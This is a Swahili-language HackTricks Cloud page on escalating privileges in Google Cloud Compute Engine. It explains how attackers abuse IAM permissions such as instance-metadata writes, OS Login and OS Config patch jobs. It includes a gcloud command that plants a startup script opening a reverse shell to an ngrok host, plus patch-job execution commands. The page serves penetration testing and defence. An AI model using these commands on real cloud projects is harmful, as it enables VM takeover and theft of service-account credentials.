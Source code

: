 # GCP - Kuboresha Mamlaka

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kuboresha

Kwa habari zaidi kuhusu Kuboresha na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Tambua kwamba ili kutekeleza mashambulizi yote ya kuboresha mamlaka yanayohitaji kurekebisha metadata ya kifaa (kama kuongeza watumiaji wapya na funguo za SSH) ni **muhimu kuwa na ruhusa ya `actAs` juu ya SA iliyowekwa kwenye kifaa**, hata kama SA tayari imeunganishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kurekebisha** habari ya **metadata** ya **kifaa** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mwingine na ruhusa za sudo**. Kwa hivyo, utaweza kutekeleza kupitia SSH kwenye kifaa chochote cha VM na kuiba Akaunti ya Huduma ya GCP ambayo Kifaa kinatumika nayo.\
Vikwazo:

* Tambua kwamba Akaunti za Huduma za GCP zinazoendesha kwenye visa vya VM kwa chaguo-msingi zina **wigo mdogo sana**
* Utahitaji kuwa **na uwezo wa kuwasiliana na seva ya SSH** ili kuingia

Kwa habari zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kutekeleza shambulizi hili kwa kuongeza script ya kuanza upya mpya na kuanzisha upya kifaa:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Kibali hii inakupa **madaraka sawa na kibali cha awali** lakini kwa mifano maalum badala ya mradi mzima. **Mbinu na vikwazo sawa na sehemu iliyopita inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya kibali itakuruhusu **kujipa jukumu lenye madaraka ya awali** na kukuza madaraka kwa kuwatumia vibaya.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imeanzishwa kwenye kifaa**, kwa kibali hiki unaweza tu kutekeleza **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye kifaa. **Hautakuwa na madaraka ya msingi** ndani ya kifaa.

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imeanzishwa kwenye kifaa**, kwa kibali hiki unaweza tu kutekeleza **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye kifaa. Utakuwa na **madaraka ya msingi** ndani ya kifaa.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual na Akaunti ya Huduma iliyopewa na kuiba token** ya akaunti ya huduma kwa kupata metadata na kukuza madaraka kwake.

Skripti ya kutumia mbinu hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** kibali unaweza kuunda [**kazi au upelekaji wa kifurushi**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kusonga kwa upande katika mazingira na kupata utekelezaji wa nambari kwenye mashine zote za kuhesabu ndani ya mradi.

Ikiwa unataka kutumia hii kwa mkono utahitaji kuunda [kazi ya kifurushi](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) au [upelekaji](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) kwa kazi ya kifurushi endesha:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Kwa kupeleka upelekaji wa kifurushi:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Zana za kiotomatiki kama [patchy](https://github.com/rek7/patchy) zipo kugundua vibali vya kulegea na kusonga kwa upande kiotomatiki.

**Unaweza pia kutumia hii kwa uthabiti.**

### `compute.machineImages.setIamPolicy`

**Jipa madaraka ya ziada** kwa Picha ya Kuhesabu.

### `compute.snapshots.setIamPolicy`

**Jipa madaraka ya ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipa madaraka ya ziada** kwa diski.

### Pita Kwenye Vipimo vya Kufikia

Kufuata kiungo hiki utapata [**mawazo ya jaribu kupita kwenye vipimo vya ufikia**](../).

### Kupanda Daraja la Madaraka Kienyeji kwenye Kifaa cha Kuhesabu cha GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Marejeo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
